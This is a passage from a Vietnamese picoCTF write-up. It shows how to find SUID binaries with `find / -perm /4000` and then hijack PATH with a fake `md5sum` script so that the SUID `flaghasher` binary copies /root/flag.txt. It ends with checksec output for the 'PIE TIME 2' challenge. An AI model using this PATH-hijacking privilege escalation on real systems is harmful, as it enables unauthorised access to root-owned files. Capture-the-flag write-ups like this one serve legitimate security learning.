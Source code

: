 ```sh
find / -perm /4000
```

```sh
ctf-player@challenge:~$ find / -perm /4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/local/bin/flaghasher
```

Và lúc này việc ta cần làm là như `hash-only-1` là điều hướng luồng thực thi của nó mà thôi

```sh
ctf-player@challenge:~$ echo "cat /root/flag.txt > a.txt"  > md5sum       # fake md5sum
ctf-player@challenge:~$ export PATH=/home/ctf-player:$PATH                # add path hiện tại vào $PATH
ctf-player@challenge:~$ chmod +x md5sum                                   # cấp quyền execute cho md5sum
ctf-player@challenge:~$ /usr/local/bin/flaghasher                         # chạy file binary
Computing the MD5 hash of /root/flag.txt....

ctf-player@challenge:~$ ls
a.txt  md5sum
ctf-player@challenge:~$ cat a.txt                                         # Read flag
picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_1a74f5fd}
```


## PIE TIME 2

### Challenge Description

![alt text](/img/PicoCTF/image-1.png)

### Analysis

```sh
[*] '/home/alter/CTFs/2025/PicoCTF/pwn/PIE_TIME2/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
